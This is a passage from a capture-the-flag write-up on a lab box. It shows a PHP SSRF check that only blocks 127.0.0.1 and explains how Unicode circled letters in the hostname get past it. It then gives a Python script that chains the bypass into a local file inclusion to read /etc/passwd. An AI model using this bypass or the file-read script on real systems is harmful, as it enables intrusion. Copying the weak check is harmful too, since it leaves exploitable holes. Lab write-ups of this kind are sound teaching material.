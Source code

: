 I went back to the code that loaded a URL in the API.

```php
function get_url_content($url){
  $domain = parse_url($url, PHP_URL_HOST);
  if (gethostbyname($domain) === "127.0.0.1") {
    jsonify(["message" => "Unacceptable URL"]);
  }

  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, $url);

  ...
}
```

The code was using [parse_url](https://www.php.net/parse_url) to split the URL into parts, then [gethostbyname](https://www.php.net/gethostbyname) to make sure the domain did not point to localhost, and finally curl to make the request. 

I needed to find something that would not resolve to localhost in PHP, but still work in curl. I searched for vulnerabilities in all those functions. I tried multiple things like adding null bytes, and carriage returns, ... 

The name of the box and its image pointed to UTF-8, so I also tried adding UTF characters at the beginning and the end, but it broke curl. I found the [slide to a Black Hat presentation](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) that had many things to try. And I finally got it. I needed to send a request to 'image.haxtabⓛⓔs.htb'. It did not resolve to localhost in PHP, but it worked in curl, and Apache sent the request to the correct vhost.

I modified the LFI script to exploit the second LFI.

```python
#!/usr/bin/env python

import requests
import sys
import json
import base64

json_data = {
    'action': 'b64encode',
    'file_url' : "http://image.haxtabⓛⓔs.htb/actions/action_handler.php?page=/etc/passwd"
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)

json_data = json.loads(response.text)

if 'data' not in json_data:
    print('Failed')
    print(json_data)
    exit()

decoded = base64.b64decode(json_data['data']).decode()
print(decoded)
```
